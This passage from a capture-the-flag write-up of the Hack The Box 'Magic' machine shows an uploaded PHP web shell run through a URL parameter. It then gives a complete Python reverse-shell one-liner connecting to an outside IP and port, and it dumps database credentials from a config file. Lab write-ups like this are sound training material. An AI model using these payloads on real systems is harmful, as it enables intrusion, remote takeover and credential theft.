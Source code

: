 The upload now succeeds, and by browsing to the following url
~~~
http://magic.htb/images/uploads/shell.php.jpg?cmd=whoami
~~~

I can tell that i have remote code execution. 
![RCE](https://jackhack.se/assets/images/magic/rce.png)
{: .full}

I proceed by using this web backdoor to spawn a reverse shell by using python

~~~
http://magic.htb/images/uploads/shell.php.jpg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.124",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

![Shell](https://jackhack.se/assets/images/magic/shell.png)
{: .full}

# User
I am now connected to the box as the user www-data, in the directory */var/www/Magic* there is a file called **db.php5**, by reading the file i am presented with some database credentials. 

~~~
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
~~~
{: .language-php}
